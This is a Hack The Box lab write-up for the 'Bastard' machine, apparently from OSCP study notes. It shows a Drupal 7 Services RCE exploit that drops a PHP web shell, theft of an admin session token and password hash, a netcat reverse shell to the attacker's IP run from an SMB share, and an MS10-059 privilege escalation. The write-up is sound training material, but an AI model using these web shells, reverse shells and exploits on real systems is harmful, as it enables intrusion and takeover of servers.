

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/window-boxes/bastard-medium
---

# ✅ Bastard (Medium)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Remote Code Execution

**System Vulnerable:** 10.10.10.9

**Vulnerability Explanation:** The machine is vulnerable to Remote code execution due to application version out of dated which allow us to gain initial foothold on the machine.

**Privilege Escalation Vulnerability:** MS10-059

**Vulnerability Fix:** Apply patch or Update the system

**Severity:** Critical

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -sC -sV -T4 10.10.10.9 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-07 23:34 EST
Nmap scan report for 10.10.10.9
Host is up (0.050s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Enumeration

### Port 80, Microsoft IIS httpd 7.5

we will go through HTTP first. On port 80, we see the drupal webpage. Base on nmap scan, it detects some files and directory hidden. Most of the content are access denied. But on /changelog.txt we can access and the drupal application is running on version 7.

.png>)

.png>)

Let check for public exploit whether this version is vulnerable or not. As we can see there are many exploit script. Let check the content of exploit script.

.png>)

Let grab the exploit on Remote Code Execution.

```
└─$ searchsploit -m php/webapps/41564.php
```

First the script will curl on endpoint of the application.&#x20;

```
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```

Following the **/rest\_endpoint** on the application, it displays page not found. But testing on **/rest** it's working.

.png>)

```
# Request
http://10.10.10.9/rest

# Response
Services Endpoint "rest_endpoint" has been setup successfully.
```

```
# Require to install php-curl before run

sudo apt install php-curl
```

## #1 Exploitation (Command Injection)

Let customize the code and replacing some argument value. It's going to connect to URL that we specify **"10.10.10.9/rest"** and create file name **shell.php** and it contains command execution.

```
$url = '10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'shell.php',
    'data' => '<?php system($_REQUEST["cmd"]); ?>'
```

```
└─$ php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: 10.10.10.9/shell.php
```

It's going to create 2 files on our machine, **session.json** and **user.json.** On session.json file, we have valid session of admin user and user.json, we have admin hash.&#x20;

```
└─$ cat session.json 
{
    "session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
    "session_id": "8FaAyHz-6lKAgzZu5NbWLWjnxsWnV2JJZG08ymeicj0",
    "token": "RTx5TDGfHQ0Bw3Z8XzR8vM90Gg34Z9HH9BJfLvvdvkc"
}

└─$ cat user.json   
{
    "uid": "1",
    "name": "admin",
    "mail": "drupal@hackthebox.gr",
    "theme": "",
    "created": "1489920428",
    "access": "1636354915",
    "login": 1636355569,
    "status": "1",
    "timezone": "Europe\/Athens",
    "language": "",
    "picture": null,
    "init": "drupal@hackthebox.gr",
    "data": false,
    "roles": {
        "2": "authenticated user",
        "3": "administrator"
    },
    "rdf_mapping": {
        "rdftype": [
            "sioc:UserAccount"
        ],
        "name": {
            "predicates": [
                "foaf:name"
            ]
        },
        "homepage": {
            "predicates": [
                "foaf:page"
            ],
            "type": "rel"
        }
    },
    "pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
}
```

Also we can execute command via curl on the file we created.

```
└─$ curl 10.10.10.9/shell.php?cmd=hostname       
Bastard

└─$ curl 10.10.10.9/shell.php?cmd=whoami            
nt authority\iusr
```

We can also issue command systeminfo to check the architecture of the system. Notice that system running in x64 architecture.

```
└─$ curl 10.10.10.9/shell.php?cmd=systeminfo                                   127 ⨯

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00496-001-0001283-84782
Original Install Date:     18/3/2017, 7:04:46 ��
System Boot Time:          8/11/2021, 9:00:42 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.047 MB
Available Physical Memory: 1.589 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.614 MB
Virtual Memory: In Use:    481 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```

Startup SMB Server to share files netcat64.exe for victim to connect and execution reverse shell to our machine.

```
└─$ impacket-smbserver share ~/transfer/Win-Tools 
```

Intercept traffic through burp proxy and change the request for connect to our kali share and execute netcat. Let start listener with netcat on port 4444.

```
nc -lvp 4444
```

```
GET /shell.php?cmd=\\10.10.14.31\share\nc64.exe+-e+cmd.exe+10.10.14.31+4444 HTTP/1.1
```

.png>)

## #2 Exploitation (Session)

On the files session.json we have valid session of the admin user. Let add those value to our browser cookie.&#x20;

.png>)

Then, refreshing the page on 10.10.10.9 and we are now login as Admin.

.png>)

Going to add new content type of php format but it doesn't have. It's only available HTLM and plaintext. Let add PHP on modules tab tick enable and save configuration.

.png>)

Let go to **Add Content > Basic Page** and create title exploit with command execution code.

.png>)

.png>)

Let start testing on command execution on webpage and it's working.

.png>)

## Privilege Escalation

For the easiest way, I will run windows-exploit-suggester.py on systeminfo of the system.

```
└─$ python windows-exploit-suggester.py -u                                      
[*] initiating winsploit version 3.3...
[+] writing to file 2021-11-08-mssb.xls
[*] done

└─$ python windows-exploit-suggester.py -d 2021-11-08-mssb.xls -i systeminfo.txt 
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

### MS10-059

Let start our SMB server to share exploit executable file and start netcat listener on 5555

```
impacket-smbserver share .
nc -lvp 5555
```

On our victim machine, connect to our kali share folder and execute file MS10-059.exe

```
C:\inetpub\drupal-7.54>\\10.10.14.31\share\MS10-059.exe 10.10.14.31 5555
\\10.10.14.31\share\MS10-059.exe 10.10.14.31 5555
```

.png>)
